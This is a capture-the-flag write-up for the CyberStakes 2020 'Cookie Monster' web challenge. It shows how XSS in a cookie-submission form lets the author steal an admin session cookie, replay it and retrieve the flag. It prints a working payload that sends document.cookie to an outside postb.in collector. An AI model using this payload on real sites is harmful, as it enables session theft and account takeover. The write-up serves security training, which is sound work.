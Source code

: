 # WORK IN PROGRESS

# Cookie Monster
* **Category**: Web Security
* **Points**: 200
* **Challenge**: Lets make some yummy cookies! Maybe you can even find some extra tasty ones: http://challenge.acictf.com:27734.
* **Hint #1**: If only we could inspect the device's memory while it is running...
* **Hint #2**: You can control the value so select all you want.
* **Hint #3**: If you need an endpoint for a callback, postb.in is a useful resource. You could also run a simple server on the competition's shell server using a command like python -m SimpleHTTPServer.

<br />

First lets navigate to the challenge in a web browser:
```
http://challenge.acictf.com:27734.
```
![cookiemonster](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/cookiemonster.JPG)

If we click *more info*, there is a hidden link to *Cookie Admin* under the *Cookie* section.  Trying to navigate to this page gives an HTTP 403 Forbidden error message, so we will need to authenticate as an admin if we want to see the page.

Based on the name of the challenge and some of the hints, we can assume that we are going to [stealing cookies via XSS](https://www.openlearning.com/u/ivanteong/blog/StealingCookiesViaXssUsingPhpOrRequestbin/).  Lets submit a cookie to the cookie monster (random name and ingredients) and [capture the POST request in Burp Suite](https://portswigger.net/burp/documentation/desktop/tools/proxy/getting-started):

<br />

![burp1](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/burp1.JPG)

<br />

There are two parameters potentially vulnerable to XSS, *name* and *ingredients*.  Lets use a simple JavaScript alert to see if the site is vulnerable to Reflected XSS:
```
<script>alert("XSS!")</script>
```

<br /> 

Now place the JavaScript alert in place of one of the ingredients in Burp Suite: 
```
name=Sugar&ingredients=<script>alert("XSS!")</script>&ingredients=sugar&ingredients=eggs&ingredients=Add+ingredient
```

<br /> 

Forward the POST request Burp Suite and we get an alert message on the next page:

<br /> 

![alert](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/alert.JPG)

<br /> 

Now that we know the site is vulnerable to XSS, we can use that to obtain the admin session cookie.  When we slected submit cookie for approval we recived another alert message and a statement saying taht the cookie monster is viewing our cookie.  That will be the point where we should get the cookie.

Use postb.in to received the admin cookie from the victims browser.  After selecting *create bin*, use the URL to craft malicious JavaScript: 
```
<script>new Image().src='https://postb.in/1589765685538-7717803197447/malicious.php?code='%2Bdocument.cookie</script>
```

<br /> 

Inject the malicious Javascript into the POST just like we did with the alert messsage:
and submit the cookie for approval
```
name=Sugar&ingredients=<script>new Image().src='https://postb.in/1589765685538-7717803197447/malicious.php?code='%2Bdocument.cookie</script>&ingredients=sugar&ingredients=eggs&ingredients=Add+ingredient
```

Refresh the PostBin page and you should see the admin cookie:

<br />

![admincookie](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/admincookie.JPG)

<br />

Now that we have the admin cookie 'b4697910-6dbc-4836-851b-a14e7a5bb7d0', we can use this to navigate to the *Cookie Admin* page.  Intercept the GET request in BurpSuite and replace your cookie with the admin cookie:

![burp2](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/burp2.JPG)

<br />

We are presented with a page with a link to *Flag Cookie*.  Click it to get the flag:


<br />

![flagcookie](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/flagcookie.JPG)

<br />

## Flag: ACI{07c3bc112a56b3d9512b6a54148}



